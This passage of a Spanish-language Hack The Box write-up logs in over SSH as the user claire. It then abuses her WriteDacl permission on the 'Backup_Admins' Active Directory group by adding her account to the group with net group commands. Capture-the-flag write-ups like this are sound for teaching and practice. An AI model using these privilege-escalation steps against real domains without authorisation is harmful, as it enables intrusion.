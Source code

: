 <figure><img src="../../../.gitbook/assets/3363_vmware_lxd7VeIwEm.png" alt=""><figcaption></figcaption></figure>

Accederemos a través del SSH con el usuario (claire@htb.local).

```bash
ssh Claire@10.10.10.77
```

<figure><img src="../../../.gitbook/assets/3364_vmware_UITUGflg6Y.png" alt=""><figcaption></figcaption></figure>

### Abusing WriteDacl privileges on a group (Shell as Administrator)

Volviendo al archivo CSV, verificamos que el usuario que disponemos actualmente (claire@htb.local) dispone de permisos de _**WriteDacl**_ sobre el grupo "Backup\_Admins".&#x20;

Este permiso nos permite añadirnos al grupo mencionado.

<figure><img src="../../../.gitbook/assets/3361_vmware_kkBn60avEN.png" alt=""><figcaption></figcaption></figure>

Procederemos a añadirnos como miembros del grupo "Backup\_Admins", verificaremos que formamos parte del grupo.

```powershell
net group "Backup_Admins" claire /add /domain

net group "Backup_Admins"
```

<figure><img src="../../../.gitbook/assets/3365_vmware_277xIdvpo1.png" alt=""><figcaption></figcaption></figure>
